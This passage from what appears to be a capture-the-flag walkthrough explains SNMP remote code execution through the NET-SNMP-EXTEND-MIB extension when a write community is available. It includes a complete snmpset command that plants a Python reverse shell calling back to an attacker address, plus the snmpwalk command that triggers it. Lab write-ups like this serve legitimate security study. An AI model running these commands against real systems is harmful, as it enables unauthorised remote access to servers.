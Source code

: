 I found nothing intersting with IPV6, and with some googling snmp seems vulnerable to a RCE if we have a "write" right community. 

#### ABUSING SNMP for RCE 

If you have a SNMP community with write permissions on a Linux target, you can achieve code execution by abusing the "NET-SNMP-EXTEND-MIB" extension.
The SNMP service can be extended in multiple ways, one possibility are the functions provided by the MIB “NET-SNMP-EXTEND-MIB”. From the RedHat Linux Documentation:

The Net-SNMP Agent provides an extension MIB (NET-SNMP-EXTEND-MIB) that can be used to query arbitrary shell scripts. To specify the shell script to run, use the extend directive in the /etc/snmp/snmpd.conf file. Once defined, the Agent will provide the exit code and any output of the command over SNMP.
So, by invoking the NET-SNMP-EXTEND-MIB over SNMP, it is possible to call arbitrary scripts/executables on the server. As the SNMP user running the service.

A detailed [article](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/) about snmp RCE.

We put a reverse shell command into the "NET-SNMP-EXTEND-MIB" object , and execute it with snmwalk

#### Exploit code

```
$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 \     
    10.10.10.195 \
    'nsExtendStatus."command"'  = createAndGo \
    'nsExtendCommand."command"' = /usr/bin/python3 \
    'nsExtendArgs."command"'    = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.X\",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
And execute it like:

``` 
$  snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195  nsExtendObjects
```

![snmp_rce](https://github.com/roughiz/Intense-walktrough/blob/main/images/snmpset.png)

